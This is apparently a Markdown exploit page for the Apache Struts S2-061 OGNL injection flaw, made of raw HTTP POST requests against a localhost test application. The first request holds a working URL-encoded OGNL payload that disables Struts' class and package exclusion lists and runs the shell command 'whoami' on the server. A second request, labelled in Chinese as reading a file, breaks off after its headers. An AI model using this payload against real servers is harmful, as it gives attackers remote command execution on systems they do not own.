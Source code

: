 ```html
POST /s2_061_war_exploded/index.action;jsessionid=79E61355244F9B654BF1EDF344179E2A HTTP/1.1
Host: localhost:8080
Content-Length: 900
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/s2_061_war_exploded/index.action
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=79E61355244F9B654BF1EDF344179E2A
Connection: close

name=%25%7B%28%27Powered_by_Unicode_Potats0%2Cenjoy_it%27%29.%28%23UnicodeSec+%3D+%23application%5B%27org.apache.tomcat.InstanceManager%27%5D%29.%28%23potats0%3D%23UnicodeSec.newInstance%28%27org.apache.commons.collections.BeanMap%27%29%29.%28%23stackvalue%3D%23attr%5B%27struts.valueStack%27%5D%29.%28%23potats0.setBean%28%23stackvalue%29%29.%28%23context%3D%23potats0.get%28%27context%27%29%29.%28%23potats0.setBean%28%23context%29%29.%28%23sm%3D%23potats0.get%28%27memberAccess%27%29%29.%28%23emptySet%3D%23UnicodeSec.newInstance%28%27java.util.HashSet%27%29%29.%28%23potats0.setBean%28%23sm%29%29.%28%23potats0.put%28%27excludedClasses%27%2C%23emptySet%29%29.%28%23potats0.put%28%27excludedPackageNames%27%2C%23emptySet%29%29.%28%23exec%3D%23UnicodeSec.newInstance%28%27freemarker.template.utility.Execute%27%29%29.%28%23cmd%3D%7B%27whoami%27%7D%29.%28%23res%3D%23exec.exec%28%23cmd%29%29%7D&age=
```

#### 读取文件

```html
POST /s2_061_war_exploded/index.action;jsessionid=79E61355244F9B654BF1EDF344179E2A HTTP/1.1
Host: localhost:8080
Content-Length: 900
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/s2_061_war_exploded/index.action
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=79E61355244F9B654BF1EDF344179E2A
Connection: close

```